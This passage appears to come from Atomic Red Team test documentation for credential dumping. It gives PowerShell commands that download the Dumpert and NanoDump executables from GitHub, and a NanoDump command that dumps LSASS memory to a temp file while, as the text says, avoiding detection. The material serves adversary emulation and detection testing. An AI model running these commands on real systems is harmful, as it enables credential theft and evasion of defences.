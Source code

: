 ##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory (Split-Path "#{dumpert_exe}") -Force | Out-Null
Invoke-WebRequest "https://github.com/clr2of8/Dumpert/raw/5838c357224cc9bc69618c80c2b5b2d17a394b10/Dumpert/x64/Release/Outflank-Dumpert.exe" -OutFile "#{dumpert_exe}"
```

<br/>
<br/>

## Atomic Test #4 - Dump LSASS.exe Memory using NanoDump

The NanoDump tool uses syscalls and an invalid dump signature to avoid detection.

https://github.com/helpsystems/nanodump

Upon successful execution, you should find the nanondump.dmp file in the temp directory

**Supported Platforms:** Windows

**auto_generated_guid:** dddd4aca-bbed-46f0-984d-e4c5971c51ea

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe -w "%temp%\nanodump.dmp"
```

#### Cleanup Commands:

```cmd
del "%temp%\nanodump.dmp" >nul 2> nul
```

#### Dependencies: Run with `powershell`!

##### Description: NanoDump executable must exist on disk at specified location (PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe)

##### Check Prereq Commands:

```powershell
if (Test-Path PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/fortra/nanodump/blob/2c0b3d5d59c56714312131de9665defb98551c27/dist/nanodump.x64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe"
```
